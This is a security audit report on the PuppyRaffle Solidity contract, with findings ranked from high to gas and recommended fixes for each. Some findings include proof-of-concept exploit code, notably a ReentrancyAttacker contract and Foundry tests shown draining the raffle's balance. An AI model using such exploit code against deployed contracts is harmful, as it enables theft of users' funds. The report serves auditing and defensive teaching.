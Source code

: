 <!DOCTYPE html>
<html>
<head>
<style>
    .full-page {
        width:  100%;
        height:  100vh; /* This will make the div take up the full viewport height */
        display: flex;
        flex-direction: column;
        justify-content: center;
        align-items: center;
    }
    .full-page img {
        max-width:  200;
        max-height:  200;
        margin-bottom: 5rem;
    }
    .full-page div{
        display: flex;
        flex-direction: column;
        justify-content: center;
        align-items: center;
    }
</style>
</head>
<body>

<div class="full-page">
    <img src="./logo_mazgar_black.png" alt="Logo">
    <div>
    <h1>Puppy Raffle Audit Report</h1>
    <h3>Prepared by: Ricardo Mazuera</h3>
    <h4>Thursday, 13 February 2025</h4>
    </div>
</div>

</body>
</html>

<!-- Your report starts here! -->

# Table of Contents
- [Table of Contents](#table-of-contents)
- [Protocol Summary](#protocol-summary)
- [Disclaimer](#disclaimer)
- [Risk Classification](#risk-classification)
- [Audit Details](#audit-details)
  - [Scope](#scope)
  - [Roles](#roles)
- [Executive Summary](#executive-summary)
  - [Issues found](#issues-found)
- [Findings](#findings)
  - [High](#high)
    - [\[H-1\] Reentrancy attack in `PuppyRaffle::refund` allows entrant to drain raffle balance](#h-1-reentrancy-attack-in-puppyrafflerefund-allows-entrant-to-drain-raffle-balance)
    - [\[H-2\] Weak randomness in `PuppyRaffle::selectWinner` allows users to influence or predict the winner and the winning puppy.](#h-2-weak-randomness-in-puppyraffleselectwinner-allows-users-to-influence-or-predict-the-winner-and-the-winning-puppy)
    - [\[H-3\] Integer overflow of `PuppyRaffle::totalFees` loses fees](#h-3-integer-overflow-of-puppyraffletotalfees-loses-fees)
  - [Medium](#medium)
    - [\[M-1\] Gas cost increased with more players, leading to a potential denial of service attack](#m-1-gas-cost-increased-with-more-players-leading-to-a-potential-denial-of-service-attack)
    - [\[M-2\] Calling `sendValue` without first updating status](#m-2-calling-sendvalue-without-first-updating-status)
    - [\[M-3\] Smart contract wallets raffle winners without a `receive`or a `fallback` function will block the start of a new contest](#m-3-smart-contract-wallets-raffle-winners-without-a-receiveor-a-fallback-function-will-block-the-start-of-a-new-contest)
  - [Low](#low)
    - [\[L-1\] `PuppyRaffle::getActivePlayerIndex` returns 0 for non-existent players and for players at index 0, causing a player at index 0 to incorrectly think they have not entered the raffle.](#l-1-puppyrafflegetactiveplayerindex-returns-0-for-non-existent-players-and-for-players-at-index-0-causing-a-player-at-index-0-to-incorrectly-think-they-have-not-entered-the-raffle)
  - [Informational](#informational)
    - [\[I-1\] Solidity pragma should be specific, not wide](#i-1-solidity-pragma-should-be-specific-not-wide)
    - [\[I-2\] Using an outdated version of Solidity is not recommended.](#i-2-using-an-outdated-version-of-solidity-is-not-recommended)
    - [\[I-3\]: Missing checks for `address(0)` when assigning values to address state variables](#i-3-missing-checks-for-address0-when-assigning-values-to-address-state-variables)
    - [\[I-4\] `PuppyRaffle::selectWinner` should follow CEI](#i-4-puppyraffleselectwinner-should-follow-cei)
    - [\[I-5\] Use of "magic" numbers is discouraged](#i-5-use-of-magic-numbers-is-discouraged)
    - [\[I-6\] State changes are missing events](#i-6-state-changes-are-missing-events)
    - [\[I-7\] `PuppyRaffle::_isActivePlayer` is never used and should be removed](#i-7-puppyraffle_isactiveplayer-is-never-used-and-should-be-removed)
  - [Gas](#gas)
    - [\[G-1\] Unchanged state variables should be declared constant or immutable.](#g-1-unchanged-state-variables-should-be-declared-constant-or-immutable)
    - [\[G-2\] Storage variables in a lopp should be cached](#g-2-storage-variables-in-a-lopp-should-be-cached)

# Protocol Summary

This project is to enter a raffle to win a cute dog NFT. The protocol should do the following:

1. Call the `enterRaffle` function with the following parameters:
   1. `address[] participants`: A list of addresses that enter. You can use this to enter yourself multiple times, or yourself and a group of your friends.
2. Duplicate addresses are not allowed
3. Users are allowed to get a refund of their ticket & `value` if they call the `refund` function
4. Every X seconds, the raffle will be able to draw a winner and be minted a random puppy
5. The owner of the protocol will set a feeAddress to take a cut of the `value`, and the rest of the funds will be sent to the winner of the puppy.

# Disclaimer

The Ricardo Mazuera team makes all effort to find as many vulnerabilities in the code in the given time period, but holds no responsibilities for the findings provided in this document. A security audit by the team is not an endorsement of the underlying business or product. The audit was time-boxed and the review of the code was solely on the security aspects of the Solidity implementation of the contracts.

# Risk Classification

|            |        | Impact |        |     |
| ---------- | ------ | ------ | ------ | --- |
|            |        | High   | Medium | Low |
|            | High   | H      | H/M    | M   |
| Likelihood | Medium | H/M    | M      | M/L |
|            | Low    | M      | M/L    | L   |

We use the [CodeHawks](https://docs.codehawks.com/hawks-auditors/how-to-evaluate-a-finding-severity) severity matrix to determine severity. See the documentation for more details.

# Audit Details 
- Commit Hash: 2a47715b30cf11ca82db148704e67652ad679cd8

## Scope 
```
./src/
#-- PuppyRaffle.sol
```
## Roles
Owner - Deployer of the protocol, has the power to change the wallet address to which fees are sent through the `changeFeeAddress` function.
Player - Participant of the raffle, has the power to enter the raffle with the `enterRaffle` function and refund value through `refund` function.

# Executive Summary
## Issues found
| Severity          | Number of issues found |
| ----------------- | ---------------------- |
| High              | 3                      |
| Medium            | 3                      |
| Low               | 1                      |
| Info              | 7                      |
| Gas Optimizations | 2                      |
| Total             | 16                     |

# Findings
## High

### [H-1] Reentrancy attack in `PuppyRaffle::refund` allows entrant to drain raffle balance

**Description:**

The `PuppyRaffle::refund` function does not follow CEI (Checks, Effects, Interactions) and as a result, enables participants to drain the contract balance.

In the `PuppyRaffle::refund` function, we first make an external call to the `msg.sender` address and only after making that external call do we update the `PuppyRaffle::players` array.

```javascript
  function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

@>      payable(msg.sender).sendValue(entranceFee);
@>      players[playerIndex] = address(0);

        emit RaffleRefunded(playerAddress);
    }

```

A player who has entered the raffle could have a `fallback`/`receive` function that calls the `PuppyRaffle::refund` function again and claim another refund. They could continue the cycle till the contract balance is drained.

**Impact:**

All fees paid by raffle entrants could be stolen by the malicious participants.

**Proof of Concept:**

1. User enters the raffle
2. Attacker sets up a contract with a `fallback` function that calls the `PuppyRaffle::refund` function.
3. Attacker enters the raffle
4. Attacker calls `PuppyRaffle::refund`from their attack contract, draining the contract balance.

<details>
<summary>PoC</summary>

Please the following code in the`PuppyRaffle.t.sol`:

```javascript
    function test_reentrancyRefund() public playersEntered {
    ReentrancyAttacker attackerContract = new ReentrancyAttacker(puppyRaffle);
    address attackUser = makeAddr("attacker");
    vm.deal(attackUser, 1 ether);

    uint256 startingAttackContractBalance = address(attackerContract).balance;
    uint256 startingPuppyRaffleBalance = address(puppyRaffle).balance;

    // attacker enters the raffle
    vm.prank(attackUser);
    attackerContract.attack{value: entranceFee}();

    console.log("starting attacker contract balance: %s", startingAttackContractBalance);
    console.log("starting puppy raffle balance: %s", startingPuppyRaffleBalance);

    console.log("ending attacker contract balance: %s", address(attackerContract).balance);
    console.log("ending puppy raffle balance: %s", address(puppyRaffle).balance);
}
```
And this contraact as well:

```javascript
contract ReentrancyAttacker {
    PuppyRaffle puppyRaffle;
    uint256 entranceFee;
    uint256 attackerIndex;

    constructor(PuppyRaffle _puppyRaffle) {
        puppyRaffle = _puppyRaffle;
        entranceFee = puppyRaffle.entranceFee();
    }

    function attack() public payable {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);

        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(attackerIndex);
    }

    receive() external payable {
        if (address(puppyRaffle).balance >= entranceFee) {
            puppyRaffle.refund(attackerIndex);
        }
    }
}
```

</details>


**Recommended Mitigation:**

To prevent this, we should have the `PuppyRaffle::refund` function update the `players`array before making the external call. Additionally, we should move the event emission up as well.

```diff
  function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

+       players[playerIndex] = address(0);
+       emit RaffleRefunded(playerAddress);

        payable(msg.sender).sendValue(entranceFee);

-       players[playerIndex] = address(0);
-       emit RaffleRefunded(playerAddress);
    }
```

### [H-2] Weak randomness in `PuppyRaffle::selectWinner` allows users to influence or predict the winner and the winning puppy.

**Description:**

Hashing `msg.sender`, `block.timestamp`, and `block.difficulty`together creates a predictable find number. A predictables number is not a good random number. Malicious users can manipulate these values or know them ahead of time to choose the winner of the raffle themselves.

*Note:* This additionally means users could front-run this function and call `refund`if they see they are not the winner. 

**Impact:**

Any user can influence the winner of the raffle, winning the money and selecting the `rarest`puppy. Making the entire raffle worthless if it become a gas war as to who wins the raffles.

**Proof of Concept:**

1. Validator can know ahead of time the `block.timestamp`and `block.difficulty` and use that to predict when/how to participate. See the [solidity blog on prevrandao](https://soliditydeveloper.com/prevrandao). `block.difficulty` was recently replaced with prevrandao.
2. User can mine/manipulate their `msg.sender`value to result in their address being used to generated the winner!
3. Users can revert their `selectWinner` transaction if they don't like the winner or result puppy.

**Recommended Mitigation:**

Consider using cryptographically provable random number generator such as Chainlink VRF.

### [H-3] Integer overflow of `PuppyRaffle::totalFees` loses fees

**Description:**

In solidity versions prior to `0.8.0`integers were subject to integer overflows.

```javascript
    uint64 myVar = type(uint64).max; //18446744073709551615
    myVar = myVar + 1; // mayVar will be 0
```
**Impact:**

In `PuppyRaffle::selectWinner`, `totalFees`are accumulated for the `feeAddress`to collect later in `PuppyRaffle::withdrawFees`. However, if the `totalFees`variables overflows, the `feeAddress`my not collect the correct amount of fees, leaving fees permanently stuck in the contract.

**Proof of Concept:**

1. We conclude a raffle of 4 players
2. We then have 89 players enter a new rafffle, and conclue the raffle
3. `totalFees`will be:
   
   ```javascript
        totalFees = totalFees + uint64(fee);
        // aka
        totalFees = 800000000000000000 + 1780000000000000000 
        // and this will overflow!
        totalFees = 1.5539e+19
   ```
4. You will not be able to withdraw the fees, due to the line in `PuppyRaffle::withdrawFees`:

```javascript
    require(address(this).balance == uint256(totalFees), "PuppyRaffle: There are currently players active!");
```

Althought you could use `selfdestruct`to send ETH to this contract in order for the values to match and withdraw the fees, this is clearly not the intended design of the cprotocol. At some point, there will be too much `balance`in the contract that the above `require` will be impossible to hit.

<details>
<summary>Code</summary>

```javascript
    function testTotalFeesOverflow() public playersEntered {
        // We finish a raffle of 4 to collect some fees
        vm.warp(block.timestamp + duration + 1);
        vm.roll(block.number + 1);
        puppyRaffle.selectWinner();
        uint256 startingTotalFees = puppyRaffle.totalFees();
        // startingTotalFees = 800000000000000000

        // We then have 89 players enter a new raffle
        uint256 playersNum = 89;
        address[] memory players = new address[](playersNum);
        for (uint256 i = 0; i < playersNum; i++) {
            players[i] = address(i);
        }
        puppyRaffle.enterRaffle{value: entranceFee * playersNum}(players);
        // We end the raffle
        vm.warp(block.timestamp + duration + 1);
        vm.roll(block.number + 1);

        // And here is where the issue occurs
        // We will now have fewer fees even though we just finished a second raffle
        puppyRaffle.selectWinner();

        uint256 endingTotalFees = puppyRaffle.totalFees();
        console.log("ending total fees", endingTotalFees);
        assert(endingTotalFees < startingTotalFees);

        // We are also unable to withdraw any fees because of the require check
        vm.prank(puppyRaffle.feeAddress());
        vm.expectRevert("PuppyRaffle: There are currently players active!");
        puppyRaffle.withdrawFees();
    }
```

</details>

**Recommended Mitigation:**

There are a few posibble mitigations.

1. Use a newer version of solidity, and a `uint256` instead of `uint64` for `PuppyRaffle::totalFees`.
2. You could also use the `SafeMath` library of OpenZeppelin for version 0.7.6 of solidity, however yo would still have a hard time with the `uint64`type if too many fees are collected.
3. Remove the balance check from `PuppyRaffle:withdrawFees`
    
    ```diff
    -   require(address(this).balance == uint256(totalFees), "PuppyRaffle: There are currently players active!");
    ```
There are more attack vectors with that final require, so we recommend removing it regardless.


## Medium

### [M-1] Gas cost increased with more players, leading to a potential denial of service attack

**Description:**

The `PuppyRaffle::enterRaffle` function validates the `newPlayers` in the `players` array, each time a new player is added. This validation is done in a loop, which increases the gas cost with each new player added. This can lead to a potential denial of service attack, where an attacker can add multiple players to the `players` array, increasing the gas cost and potentially causing the transaction to run out of gas.

Here is the code snippet for the validation:
```javascript
    // Check for duplicates
    for (uint256 i = 0; i < players.length - 1; i++) {
        for (uint256 j = i + 1; j < players.length; j++) {
            require(players[i] != players[j], "PuppyRaffle: Duplicate player");
        }
    }
```

**Impact:**

An attacker can add multiple players to the `players` array, increasing the gas cost and potentially causing the transaction to run out of gas.

**Proof of Concept:**

I tested with 10 new players added to the `players` array, and the gas cost increased with each new player added.
- First player gas cost: 61.020
- Last player gas cost: 70.723
This is an increase of 15.9% in gas cost with each new 10 players added.

<details>
<summary>PoC</summary>
To test this, you can run the following test case:

```javascript
   function test_denialOfService(address newPlayer) public {
        vm.assume(newPlayer != address(0));
        uint256 initialCost = 0;
        uint256 gasCost = 0;

        address[] memory newPlayers = new address[](1);

        for (uint256 i = 1; i <= 10; i++) {
            newPlayers[0] = address(uint160(i + 1));

            uint256 gasStart = gasleft();
            puppyRaffle.enterRaffle{value: entranceFee}(newPlayers);

            uint256 gasEnd = gasleft();
            gasCost = gasStart - gasEnd;

            if (i == 1) {
                initialCost = gasCost;
            }
        }

        if (gasCost > initialCost) {
            console.log(    
                "Gas cost increased with more players. Gast cost for first player: %s, gas cost for last player: %s",
                initialCost,
                gasCost
            );
            assert(gasCost > initialCost);
        }
    }

```
</details>

**Recommended Mitigation:**
To mitigate this issue, `PuppyRaffle::players` should be a mapping of addresses that have already entered the raffle. This way, the gas cost will not increase with each new player added.

### [M-2] Calling `sendValue` without first updating status

**Description:**

In the `PuppyRaffle::refund` function, the `sendValue` function is called before updating the state. This can lead to a potential reentrancy attack, where an attacker can call the `refund` function multiple times before the state is updated.

```javascript
    function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

        payable(msg.sender).sendValue(entranceFee);

        players[playerIndex] = address(0);
        emit RaffleRefunded(playerAddress);
    }
```

**Impact:**

This can make the contract is empty of funds, because the attacker can call the `refund` function multiple times before the state is updated.

**Proof of Concept:**

I tested with 4 players entered the raffle, and the attacker called the `refund` function multiple times before the state is updated. The attacker was able to drain the contract of all funds.

When I run the test case, I got the following output:
  - starting attacker contract balance: 0
  - starting puppy raffle balance: 4000000000000000000
  
  - ending attacker contract balance: 5000000000000000000
  - ending puppy raffle balance: 0

<details>
<summary>PoC</summary>
To test this, you can run the following test case:

```javascript
    function test_reentrancyRefund() public playersEntered {
        ReentrancyAttacker attackerContract = new ReentrancyAttacker(puppyRaffle);
        address attackUser = makeAddr("attacker");
        vm.deal(attackUser, 1 ether);

        uint256 startingAttackContractBalance = address(attackerContract).balance;
        uint256 startingPuppyRaffleBalance = address(puppyRaffle).balance;

        // attacker enters the raffle
        vm.prank(attackUser);
        attackerContract.attack{value: entranceFee}();

        console.log("starting attacker contract balance: %s", startingAttackContractBalance);
        console.log("starting puppy raffle balance: %s", startingPuppyRaffleBalance);

        console.log("ending attacker contract balance: %s", address(attackerContract).balance);
        console.log("ending puppy raffle balance: %s", address(puppyRaffle).balance);
    }
```
</details>

**Recommended Mitigation:**
We have two options to mitigate this issue:

1. You can use CEI Pattern to update the state before calling the `sendValue` function.

```diff
function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

+       players[playerIndex] = address(0);
        payable(msg.sender).sendValue(entranceFee);

-       players[playerIndex] = address(0);
        emit RaffleRefunded(playerAddress);
    }
```

2. You can use the Reentrancy Guards from library `ReentrancyGuard.sol` from OpenZeppelin.

```diff
+ import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

contract PuppyRaffle is ReentrancyGuard {
-     function refund(uint256 playerIndex) public {
+     function refund(uint256 playerIndex) public nonReentrant {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

        payable(msg.sender).sendValue(entranceFee);
        players[playerIndex] = address(0);

        emit RaffleRefunded(playerAddress);
    }
}
```

### [M-3] Smart contract wallets raffle winners without a `receive`or a `fallback` function will block the start of a new contest

**Description:**
The `PuppyRaffle::selectWinner` function is responsible for resetting the lottery. However, if the winner is a smart contract wallet that rejects payment, the lottery would not be able to restart.

Users could easily call the `selectWinner` function again and non-wallet entrants could enter, but it could cost a lot due to the duplicate check and a lottery reset could get very challenging.

**Impact:**
The `PuppyRaffle::selectWinner` function could revert many times, making a lottery reset difficult.

Also, true winner would not get paid out and someone else could take their money!

**Proof of Concept:**

1. 10 smart contract wallets enter the lottery without a fallback or receive function.
2. The lottery ends
3. The `selectWinner` function wouldn't work, event hough the lottery is over!

**Recommended Mitigation:**

There are a few options to mitigate this issue.

1. Do not allow smart contract wallet entrants (not recommended)
2. Create a mapping of addresses - payout amounts so winners can pull their funds out themselves with a new `claimPrize` function, putting the owness on the winner to claim their prize. (**Recommended**)

> Pull over Push 


## Low 

### [L-1] `PuppyRaffle::getActivePlayerIndex` returns 0 for non-existent players and for players at index 0, causing a player at index 0 to incorrectly think they have not entered the raffle.

**Description:**

If a player is in the `PuppyRaffle::players` array at index 0, this will return 0, but according to the natspec, it will also return 0 if the player is not in the array.

```javascript
  function getActivePlayerIndex(address player) external view returns (uint256) {
        for (uint256 i = 0; i < players.length; i++) {
            if (players[i] == player) {
                return i;
            }
        }

        return 0;
    }
```


**Impact:**

A player at index 0 may incorrectly think they have not entered the raffle, and attempt to enter the raffle again, wasting gas.

**Proof of Concept:**

1. Users enters the raffle, they are the first entrant
2. `PuppyRaffle::getActivePlayerIndex` returns 0
3. User thinks they have not entered correctly due to the function documentation.

**Recommended Mitigation:**

The easiest recommendation would be to revert if the player is not in the array instead of returning 0.

you could also reserve the 0th position for any competition, but a better solution might be to return an `int256` where the function returns -1 if the player is not active.



## Informational

### [I-1] Solidity pragma should be specific, not wide

Consider using a specific version of Solidity in your contracts instead of a wide version. For example, instead of `pragma solidity ^0.8.0;`, use `pragma solidity 0.8.0;`

<details><summary>1 Found Instances</summary>


- Found in src/PuppyRaffle.sol [Line: 2](src/PuppyRaffle.sol#L2)

    ```solidity
    pragma solidity ^0.7.6;
    ```

</details>

### [I-2] Using an outdated version of Solidity is not recommended.

solc frequently releases new compiler versions. Using an old version prevents access to new Solidity security checks. We also recommend avoiding complex pragma statement.

**Recommendation**
Deploy with a recent version of Solidity (at least `0.8.0`) with no known severe issues.

Use a simple pragma version that allows any of these versions. Consider using the latest version of Solidity for testing.

### [I-3]: Missing checks for `address(0)` when assigning values to address state variables

Check for `address(0)` when assigning values to address state variables.

<details><summary>2 Found Instances</summary>


- Found in src/PuppyRaffle.sol [Line: 63](src/PuppyRaffle.sol#L63)

    ```solidity
            feeAddress = _feeAddress;
    ```

- Found in src/PuppyRaffle.sol [Line: 175](src/PuppyRaffle.sol#L175)

    ```solidity
            feeAddress = newFeeAddress;
    ```

</details>

### [I-4] `PuppyRaffle::selectWinner` should follow CEI


It's best to keep code clean and follow CEI (Checks, Effects, Interactions) pattern.

```diff
+       _safeMint(winner, tokenId);
        (bool success,) = winner.call{value: prizePool}("");
        require(success, "PuppyRaffle: Failed to send prize pool to winner");
-       _safeMint(winner, tokenId);
```

### [I-5] Use of "magic" numbers is discouraged

It can be confusing to see number literals in a codebase, and it's much more readable if the numbers are given a name.

Examples:

```javascript
        uint256 prizePool = (totalAmountCollected * 80) / 100;
        uint256 fee = (totalAmountCollected * 20) / 100;
```

Instead, you could use:

```javascript
        uint256 public constant PRIZE_POOL_PERCENTAGE = 80;
        uint256 public constant FEE_PERCENTAGE = 20;
        uint256 public constant POOL_PRECISION = 100;
```


### [I-6] State changes are missing events

### [I-7] `PuppyRaffle::_isActivePlayer` is never used and should be removed


## Gas 

### [G-1] Unchanged state variables should be declared constant or immutable.

Reading from storage is much more expensive than reading from a constant or immutable variable.

Instances:
- `PuppyRaffle::raffleDuration` should be `immutable`.
- `PuppyRaffle::commonImageUri` should be `constant`.
- `PuppyRaffle::rareImageUri` should be `constant`.
- `PuppyRaffle::legendaryImageUri` should be `constant`.

### [G-2] Storage variables in a lopp should be cached